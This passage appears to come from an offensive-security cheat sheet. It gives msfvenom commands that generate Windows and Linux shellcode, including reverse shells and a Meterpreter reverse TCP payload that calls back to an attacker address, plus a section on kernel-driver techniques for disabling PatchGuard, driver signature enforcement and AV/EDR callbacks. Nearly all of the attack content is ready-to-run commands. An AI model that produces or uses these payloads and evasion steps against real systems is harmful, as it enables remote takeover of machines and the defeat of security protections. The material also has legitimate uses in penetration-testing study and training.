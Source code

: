 **Windows Payloads**

bash

```
# Basic calc execution
msfvenom -p windows/exec CMD=calc.exe -f c -a x86 --platform windows

# Reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -a x86

# Meterpreter reverse TCP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -a x86
```

**Linux Payloads**

bash

```
# Linux exec
msfvenom -p linux/x86/exec CMD=/bin/sh -f c -a x86 --platform linux

# Linux reverse shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -a x86
```

**Output Formats**

bash

```
-f c          # C array
-f python     # Python bytes
-f raw        # Raw binary
-f exe        # Windows executable
-f elf        # Linux ELF binary
```

***

### Kernel Driver Exploitation

#### Why Use Kernel Drivers?

Kernel drivers (Ring 0) have complete system authority, enabling capabilities impossible in user mode:

#### Common Kernel Driver Techniques

**1. Disabling Security Mechanisms**

c

```
// Conceptual examples - actual implementation varies
DisablePatchguard();    // Bypass Kernel Patch Protection
DisableDSE();           // Bypass Driver Signature Enforcement
UnregisterCallbacks();  // Remove AV/EDR kernel callbacks
```

